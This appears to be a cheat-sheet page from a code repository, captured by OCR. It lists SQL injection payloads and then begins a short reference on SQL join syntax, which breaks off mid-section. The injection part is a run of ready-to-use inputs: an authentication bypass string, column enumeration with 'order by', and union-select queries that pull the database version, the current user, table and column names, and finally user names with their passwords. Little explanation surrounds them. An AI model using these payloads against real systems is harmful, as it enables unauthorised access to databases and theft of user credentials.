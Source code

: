 ### SQLi Examples
```
	secret' or 1=1 limit1;#
	#Find number of columns return by the Select statement
	?id=738 order by 1,2,3,4...n until error is received

	#Use union select statement to append query to the original
	#union Select statement must have same number of columns as original Select statement
	?id=738 union select 1,2,3,4,5,6

	#Get DB Version
	?id=738 union select 1,2,3,4,@@version,6

	#Get DBUser
	?id=738 union select 1,2,3,4,user(),6

	#Get tables from all databases
	?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables

	#Get Table Columns
	?id=738 union select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'

	#Get User passwords
	?id=738 union select 1,2,3,4,concat(name,0x3a,password),6 FROM users
```

#### SQL Joins
```
	#FULL All
	SELECT something FROM tableA A FULL OUTER JOIN tableB B ON A.KEY = B.KEY

	#A partial B
	SELECT something FROM tableA A LEFT JOIN tableB B on A.Key = B.Key

	#B Partial A
